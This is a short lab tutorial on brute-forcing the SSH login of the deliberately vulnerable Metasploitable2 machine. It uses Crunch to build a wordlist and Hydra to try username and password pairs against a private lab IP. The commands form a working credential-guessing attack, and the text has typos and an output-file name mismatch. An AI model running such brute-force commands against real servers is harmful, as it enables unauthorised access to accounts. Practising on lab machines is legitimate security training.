

# Hack Metacploiable2 vulnarable machine: SSH BruteForce with HYDRA and CRUNDH #


### Tools need to install ###
- FTP
- Hydra
- Crunch
```
sudo apt install openssh-server 
sudo apt install openssh-client
```
```
sudo apt install hydra
```
```
sudo apt install crunch
```
### Steps ###
- Find the metsploitable2 machines IP [Click here to see details](find_ip_ms2.md).
- Check if <b> vsftpd 2.3.4 </b> (port 21) is open with nmap.
- Let the IP is 192.168.56.103
- Check if SSH is working 
```
ssh msfadmin@192.168.56.103
```
- type yes to continue
- Give 'msfadmin' as password, you should connect. then exit from ssh
- Now to hack the machines , lets we don't have the username and password. 
- Generate wordlist with crunch [click here to see details](wordlist_gen_crunch.md)
```
crunch 8 8 adfimns | grep '^msfadm' > wordlist.txt
```
- Use hydra to bruteforce with the following command
```
hydra -L wordlist.txt  -P wordlist.txt -V -o credential_ssh.txt 192.168.56.103 ssh -t 4
```
- the password and username found!

- Wait for hydra to finish all the combination and is will save the username and password in <b>credential_ssh.txt </b>  file.
- we can see username and password by 
```
cat credential.txt
```


